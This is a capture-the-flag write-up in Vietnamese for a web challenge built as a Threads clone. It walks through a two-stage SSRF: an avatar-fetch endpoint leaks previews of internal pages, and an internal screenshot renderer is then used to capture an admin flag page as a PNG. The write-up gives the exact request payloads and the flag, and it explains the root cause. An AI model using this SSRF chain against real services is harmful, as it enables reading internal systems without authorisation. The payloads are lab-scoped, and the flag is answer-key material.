

# threads

**Category:** Web

## Đề bài

> hãy trở thành 1 cư dân threads và chia sẻ những câu chuyện của bạn — `103.116.52.180:1410`

Clone mạng xã hội Threads (SPA + Express).

## Recon

Đăng ký tài khoản (`POST /api/auth/register`). Trong feed, mỗi user lộ một hostname nội bộ:

```json
"avatarUrl": "http://threads-assets:8080/avatars/default.webp"
```

Đọc `app.js` thấy client không tự load avatar mà **gửi URL cho backend fetch hộ**:

```js
fetch("/api/media/avatar", { method: "POST", body: JSON.stringify({ image_url }) })
```

Đây là **SSRF**: server fetch một URL do người dùng kiểm soát.

## Chuỗi khai thác (SSRF 2 tầng)

**1. SSRF vào asset service.** Endpoint kiểm tra content-type của response, nhưng khi từ chối lại leak **512 byte preview** của nội dung server nội bộ trả về:

```
POST /api/media/avatar {"image_url":"http://threads-assets:8080/"}
→ preview: "Threads Asset Service ... Crawler rules: /robots.txt"
```

Đọc tiếp qua SSRF:
```
/robots.txt      → "Disallow: /render-help"
/render-help     → "Internal image renderer: GET /render?url=  ...
                    Example: GET /render?url=http://threads-admin:5000/"
```

**2. Renderer = SSRF lồng nhau.** Asset service có `/render?url=` — **chụp bất kỳ trang nội bộ nào thành PNG**. Vì kết quả là `image/png` nên `/api/media/avatar` chấp nhận và trả về đúng ảnh đó, vượt qua cơ chế "chỉ leak preview text".

**3. Chụp trang admin nội bộ.** Trang `http://threads-admin:5000/` liệt kê `/internal/flag`. Render nó ra PNG:

```
POST /api/media/avatar
{"image_url":"http://threads-assets:8080/render?url=http://threads-admin:5000/internal/flag"}
```

PNG trả về hiển thị trang maintenance chứa flag (render mất ~30–50s):



## Nguyên nhân

Hai SSRF sink nối tiếp, không có allowlist: `threads-web` fetch `image_url` bất kỳ → `threads-assets` (`/render`) fetch host nội bộ bất kỳ (`threads-admin:5000`). Renderer chụp-màn-hình biến SSRF thành đọc được cả trang HTML dù đã lọc content-type.

Script: [`solve.py`](./solve.py)

## Flag

```
miniCTF{avatar_ssrf_renderer_blackbox}
```
